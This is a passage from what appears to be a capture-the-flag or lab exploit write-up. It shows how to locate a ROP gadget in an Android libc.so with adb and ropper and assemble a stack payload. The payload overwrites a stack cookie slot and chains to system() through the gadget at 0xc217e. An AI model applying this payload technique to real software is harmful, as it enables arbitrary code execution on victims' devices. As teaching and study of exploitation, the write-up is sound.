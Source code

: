 The **5th** point or our checklist requires to locate a ROP Gadged. There're a lot of tools out there but I suggest you use [ropper](https://scoding.de/ropper/). Since last three instructions of **censorCats** are:

```asm
   pop rbx,
   pop r14,
   pop r15,
   retn
```

I need to locate somewhere a `mov rdi, r[bx|14|15]` followed by a `jmp r[bx|14|15]`.

This part took me some hour until I realized I was searching in the wrong library :see_no_evil:.

```bash
$ adb pull /system/lib64/libc.so /tmp/libc.so
$ ropper2 --file /tmp/libc.so --search "mov rdi, r1?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO]  Searching for gadgets: mov rdi, r1?

[INFO]  File: /tmp/libc.so
0x0000000000028bea: mov  rdi, r12; mov  rdx, r15; call  qword ptr [rax + 0x20];
0x00000000000a2daf: mov  rdi, r12; mov  rsi, r15; mov  rdx, r14; mov  rcx, r13; call  qword ptr [rbx + 0x20];
0x00000000000a2c09: mov  rdi, r13; mov  rsi, r14; call  rax;
0x0000000000027bee: mov  rdi, r14; call  qword ptr [rax + 0x38];
0x000000000002af19: mov  rdi, r14; call  rbx;
0x00000000000c2273: mov  rdi, r14; mov  rdx, r10; call  0xc0820; xor  edi, edi; mov  rsi, r14; call  rbx;
0x00000000000c217e: mov  rdi, r14; mov  rsi, r15; call  rbx;
0x00000000000c2176: mov  rdi, r15; call  0xc0820; mov  rdi, r14; mov  rsi, r15; call  rbx;
0x0000000000027ff8: mov  rdi, r15; call  qword ptr [rax + 0x38];
0x00000000000a2644: mov  rdi, r15; mov  rdx, r14; call  rax;
0x00000000000a2a42: mov  rdi, r15; mov  rsi, qword ptr [rsp + 0x128]; mov  rcx, rsi; call  qword ptr [rbp + 0x20];
0x00000000000a353b: mov  rdi, r15; mov  rsi, r13; mov  rdx, rbx; call  qword ptr [rbp + 8];
0x000000000007cd40: mov  rdi, r15; mov  rsi, rbp; call  rbx;
```

Can you spot it?

```bash
0x00000000000c217e: mov rdi, r14; mov rsi, r15; call rbx;
```

This means that the final payload will be:

```javascript
    payload = [
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        ...
        cookie,                                            // @ offset 0x208
        systemFunctionAddress,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    // don't care about rsi
        getMySomethingValue,                               // rdi
        ropGadgetAddress
    ]
```
